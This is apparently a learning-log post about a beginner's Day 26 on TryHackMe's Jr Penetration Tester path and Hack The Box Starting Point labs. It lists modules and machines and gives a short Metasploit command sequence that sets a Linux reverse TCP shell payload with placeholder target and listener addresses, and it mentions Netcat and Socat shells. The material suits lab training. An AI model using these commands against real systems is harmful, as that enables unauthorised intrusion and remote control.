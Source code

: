 🚀 Day 26 — Jr Penetration Tester Path (TryHackMe) & Hack The Box Starting Point  

Today I started the **Jr Penetration Tester Path on TryHackMe** while also progressing through **Hack The Box Starting Point (Tier 0)**.  
Along the way, I explored and practiced with **Metasploit, Netcat, Socat, reverse/bind shells, and web shells** — core skills for penetration testing.  

This write-up documents my progress and key learnings so it can serve as a handy reference for myself and others.  

---

## 📂 Path & Platform Overview  

### **TryHackMe – Jr Penetration Tester**  
Covers the core skills needed to perform web app and infrastructure security assessments.  
Modules I touched today:  
- *Privilege Escalation – “What the Shell?”* (reverse & bind shells)  
- *Introduction to Web Hacking – “Walking an Application”* (manual review using browser dev tools)  

### **Hack The Box – Starting Point (Tier 0)**  
Focus on learning the basics of penetration testing.  
Progress: **39% complete** (pwned: Meow ✅, Fawn ✅, Dancing ✅ | Working on: Redeemer).  
Key learning outcomes:  
- Connect to FTP, SMB, Telnet, Rsync, and RDP.  
- Use **Nmap** to discover open ports.  
- Connect to and explore a **MongoDB server**.  

---

## 🛠️ Tools & Concepts Explored  

### 🔗 Metasploit  
- Payloads: staged vs stageless.  
- Exploit modules and handler setup.  
- Automating exploitation while maintaining awareness of manual alternatives.  

**Basic Commands:**  
```bash
msfconsole              # Start Metasploit
search exploit_name     # Search for exploits
use exploit/path        # Select exploit
set payload linux/x86/shell_reverse_tcp
set RHOST <target>
set LHOST <your_ip>
exploit
```

---

### 🐚 Netcat & Socat  
- Netcat for quick reverse/bind shells.  
- Socat for more stable relays, port forwarding, and encrypted channels.  

